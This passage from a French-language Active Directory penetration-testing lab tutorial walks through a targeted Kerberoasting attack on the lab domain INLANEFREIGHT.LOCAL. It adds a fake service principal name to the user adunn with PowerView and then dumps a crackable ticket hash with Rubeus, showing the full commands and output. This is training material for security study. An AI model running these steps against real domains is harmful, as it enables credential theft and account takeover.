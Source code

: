   Créer un faux SPN

```
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=adunn)(name=adunn)(displayname=adunn))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'notahacker/LEGIT' for object 'adunn'

```

Si cela fonctionnait, nous devrions être en mesure de Kerberoast l'utilisateur en utilisant n'importe quel nombre de méthodes et d'obtenir le hachage pour le craquage hors ligne. Faisons cela avec Rubeus.

#### Kerberoasting avec Rubeus

  Kerberoasting avec Rubeus

```
PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : adunn
[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=adunn)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : adunn
[*] DistinguishedName      : CN=Angela Dunn,OU=Server Admin,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName   : notahacker/LEGIT
[*] PwdLastSet             : 3/1/2022 11:29:08 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL*$ <SNIP>

```
